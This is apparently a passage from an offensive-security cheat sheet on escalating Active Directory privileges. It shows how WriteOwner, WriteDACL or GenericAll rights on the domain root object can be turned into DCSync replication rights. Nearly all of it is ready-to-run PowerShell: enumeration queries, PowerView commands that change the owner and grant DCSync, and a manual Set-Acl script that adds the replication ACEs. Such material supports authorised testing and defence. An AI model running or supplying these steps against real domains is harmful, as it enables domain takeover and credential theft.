 The ownership of the `domain root object`, or the `WriteOwner`, `WriteDACL`,
`GenericAll` (on all properties, i.e the `ObjectGuid` of the `ACE` being equal
to `00000000-0000-0000-0000-000000000000`) privileges on the
`domain root object` can be, directly or indirectly, leveraged to grant the
`Ds-Replication-Get-Changes` and `Ds-Replication-Get-Changes-All` privileges
on the domain.  

```
# DOMAIN_ROOT_OBJECT = "DC=LAB,DC=AD" for example

# Direct replication rights
Get-ACL -Path "AD:<DOMAIN_ROOT_OBJECT>" | Select -ExpandProperty Access | ? ObjectType -match '1131f6aa-9c07-11d1-f79f-00c04fc2dcd2|1131f6ad-9c07-11d1-f79f-00c04fc2dcd2'

# Rights that can be leveraged to modify the domain root object ACL to grant the privileges required for DRSUAPI replication
Get-ACL -Path "AD:<DOMAIN_ROOT_OBJECT>" | Select -ExpandProperty Access | ? ActiveDirectoryRights -match 'GenericAll|WriteDacl|WriteOwner'
```

The privileges above can be exploited either using the GUI `RSAT`'s `dsa.msc`
utility or using the following `PowerView` PowerShell cmdlets:

```
# Specifies ownership of the domain root object if needed (exploits having WriteOwner privilege on the domain root object with out the GenericAll or WriteDACL privileges)
Set-DomainObjectOwner -Verbose -Identity <DOMAIN_ROOT_OBJECT> -OwnerIdentity <SamAccountName | DistinguishedName | SID | GUID>
Set-DomainObjectOwner -Verbose -Server <DC_HOSTNAME | DC_IP> -Domain <DOMAIN_FQDN> -Credential <PSCredentials> -Identity <DOMAIN_ROOT_OBJECT> -OwnerIdentity <SamAccountName | DistinguishedName | SID | GUID> -Verbose

# Once the domain owner is changed, the GenericAll privilege can be granted to users using the new owner identity
Add-DomainObjectAcl -Verbose -TargetIdentity <DOMAIN_ROOT_OBJECT> -PrincipalIdentity <SamAccountName | DistinguishedName | SID | GUID> -Rights DCSync
Add-DomainObjectAcl -Verbose -Server <DC_HOSTNAME | DC_IP> -Domain <DOMAIN_FQDN> -Credential <PSCredentials> -TargetIdentity <DOMAIN_ROOT_OBJECT> -PrincipalIdentity <SamAccountName | DistinguishedName | SID | GUID> -Rights DCSync
```  

Alternatively, a more manual approach, using the `RSAT` `Get-Acl` and `Set-Acl`
PowerShell cmdlets can be conducted (script largely inspired from `gdedrouas`
's `Exchange-AD-Privesc`):

```
# If needed, on a system with out the RSAT installed
# Import-Module C:\Tools\Microsoft.ActiveDirectory.Management.dll

New-PSDrive -Name AD -PSProvider ActiveDirectory -Root "//RootDSE/" -Server "<DC_IP>"
$acl = Get-ACL "AD:<DOMAIN_ROOT_OBJECT>"
$sidStr = "<USER_SID>"
$sid = New-Object System.Security.Principal.SecurityIdentifier $sidStr
$objectGuid = New-Object Guid  1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
$identity = [System.Security.Principal.IdentityReference] $sid
$adRights = [System.DirectoryServices.ActiveDirectoryRights] "ExtendedRight"
$type = [System.Security.AccessControl.AccessControlType] "Allow"
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance] "None"
$ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
$objectGuid = New-Object Guid 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
Set-Acl -AclObject $acl "AD:<DOMAIN_ROOT_OBJECT>"
```